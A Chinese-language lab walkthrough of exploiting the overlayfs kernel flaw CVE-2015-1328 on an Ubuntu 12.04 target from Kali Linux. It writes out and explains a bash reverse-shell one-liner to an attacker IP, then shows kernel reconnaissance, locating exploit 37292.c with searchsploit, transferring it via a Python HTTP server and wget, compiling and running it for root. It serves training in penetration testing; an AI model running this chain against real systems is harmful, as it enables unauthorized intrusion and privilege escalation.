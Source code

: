 ### overlayfs 内核提权（CVE-2015-1328）

环境准备：一台 KaliLinux（攻击者）和一台 Ubuntu 12.04.5（靶标）

![](https://pic1.imgdb.cn/item/68bf548958cb8da5c88af39e.png)

![](https://pic1.imgdb.cn/item/68bf54b358cb8da5c88af3bc.png)

在靶标上手动创建反弹 Shell 模拟已进入内网情况

```sh
bash -i >& /dev/tcp/192.168.41.151/6767 0>&1
```

**`bash -i`**

- 启动一个 **交互式 bash shell** (`-i` 代表 interactive)
- 这样子进程不会只是执行一次命令后退出，而是会等待用户输入

------

**`/dev/tcp/192.168.41.151/6767`**

- 在 **bash 内置的特殊文件系统**中，`/dev/tcp/HOST/PORT` 表示一个 TCP 连接
- 当你尝试对它进行重定向时，bash 会尝试连接指定的 IP 和端口
- 这里就是：尝试建立到 `192.168.41.151:6767` 的 TCP 连接

------

 **`>&`**

- 这是 **标准输出和标准错误的重定向**
- `>& target` 表示把 **stdout (1) 和 stderr (2)** 一起重定向到目标
- 在这里，目标是 `/dev/tcp/192.168.41.151/6767`，即远程 TCP 连接

------

**`0>&1`**

- 把 **标准输入 (0)** 重定向到 **标准输出 (1)**
- 而标准输出已经被重定向到远程 TCP 连接，因此输入也会来自那个连接

------

**综合效果**

- 启动一个交互式 bash shell (`bash -i`)
- 该 shell 的输入、输出、错误流都被重定向到远程 TCP 连接 (`192.168.41.151:6767`)
- **结果**：一旦远程主机在该端口上监听，执行这条命令的机器就会反向连接过去，并且把一个交互式 shell 提供给远程主机

![](https://pic1.imgdb.cn/item/68bf558958cb8da5c88af412.png)

KaliLinux 监听

![](https://pic1.imgdb.cn/item/68bf559e58cb8da5c88af41b.png)

**先信息收集**

显示系统的内核和系统信息

```sh
uname -a
```

![](https://pic1.imgdb.cn/item/68bf55f258cb8da5c88af437.png)

**Linux**

 → 内核名称 (kernel name)

**ubuntu**
 → 主机名 (hostname)

**3.13.0-32-generi
 → 内核发行版本 (kernel release)

- `3.13.0` → 主版本号
- `-32` → 修订版本号
- `-generic` → 内核构建类型（通用版，Ubuntu 默认）

**#57~precise1-Ubuntu**
 → 内核编译版本号 (build number)

- `#57` → 这是第 57 次构建
- `precise1-Ubuntu` → Ubuntu 针对 **12.04 LTS (Precise Pangolin)** 发布的内核

**SMP**
 → Symmetric MultiProcessing，支持多核 CPU

**Tue Jul 15 03:50:54 UTC 2014**
 → 内核的编译时间

**i686 i686 i386**

- `i686` → CPU 类型（Intel 686 级别，表示 32 位 CPU 架构）
- 第二个 `i686` → machine 硬件名称
- `i386` → 表示兼容 32 位 i386 架构

> 说明这是一个 **32 位 Ubuntu 系统**

**GNU/Linux**
 → 操作系统名称

显示 Linux 内核版本信息

```sh
cat /proc/version
```

![](https://pic1.imgdb.cn/item/68bf563358cb8da5c88af446.png)

**Linux version 3.13.0-32-generic**
 → 内核版本号：`3.13.0-32-generic`

**(buildd@toyol)**
 → 内核构建时使用的构建账号和主机名：

- `buildd` 是 Ubuntu 自动构建系统的用户
- `toyol` 是构建服务器的主机名

**(gcc version 4.6.3 (Ubuntu/Linaro 4.6.3-1ubuntu5))**
 → 内核编译时所用的 GCC 编译器版本：`4.6.3`，来自 Ubuntu/Linaro

**#57~precise1-Ubuntu**
 → 内核构建号：第 57 次构建，适配 **Ubuntu 12.04 (Precise Pangolin)**

**SMP**
 → 表示支持对称多处理 (Symmetric MultiProcessing)，即多核 CPU

**Tue Jul 15 03:50:54 UT**
 → 内核编译时间（UTC 时间）

检查是否有 GCC（在提权前忘记敲了，补一张提权后的）

```sh
gcc
```

出现这个报错是因为我们没有提供要编译的文件，可见靶机有 GCC

![](https://pic1.imgdb.cn/item/68bf570e58cb8da5c88af47f.png)

搜索前面收集到的内核信息，查找可利用的提权漏洞

```sh
searchsploit Linux ubuntu 3.13.0
```

`searchsploit` 是 **Exploit Database (Exploit-DB)** 提供的一个命令行搜索工具

它允许你在本地离线搜索 **漏洞利用代码 (exploits)** 和 **漏洞 PoC (proof-of-concept)**

![](https://pic1.imgdb.cn/item/68bf577958cb8da5c88af498.png)

因为有 GCC，所以使用第一个 `.c` 来编译提权，先看看路径

```sh
locate linux/local/37292.c
```

**`locate`**

- 是一个基于数据库的文件搜索命令
- 它会在 `mlocate.db` 或 `updatedb` 生成的索引库里查找匹配路径的文件，而不是逐目录扫描（所以速度比 `find` 快很多）

因为要想办法在靶机上执行这个文件提权，所以先拷贝到根目录下再用 Python 开启个 `http.server` 传过去（根目录更方便些）

```sh
cp /usr/share/exploitdb/exploits/linux/local/37292.c .
```

![](https://pic1.imgdb.cn/item/68bf586558cb8da5c88af4d4.png)

开启服务器

```
python -m http.server 8989
```

**`python -m`**

- `-m` 参数表示以模块方式运行
- 这里调用的是 **`http.server`** 模块

**`http.server`**

- Python 标准库自带的一个简易 HTTP 服务器
- 默认会把当前目录作为网站根目录

**`8989`**

- 指定端口号（默认是 `8000`，这里改成了 `8989`）
- 启动后浏览器访问 `http://<IP>:8989/` 就能看到当前目录下的文件

再用 `wget` 访问下载我们的 `37292.c` 文件

```sh
wget 192.168.41.151:8989/37292.c
```

![](https://pic1.imgdb.cn/item/68bf598058cb8da5c88af600.png)

![](https://pic1.imgdb.cn/item/68bf59a658cb8da5c88af635.png)

使用 GCC 编译 C 文件

```sh
gcc -o exp 37292.c
```

`-o` 表示输出文件名

查看是否有可执行权限

![](https://pic1.imgdb.cn/item/68bf59db58cb8da5c88af677.png)

运行文件提权成功

```sh
./exp
```

![](https://pic1.imgdb.cn/item/68bf5a3758cb8da5c88af6c6.png)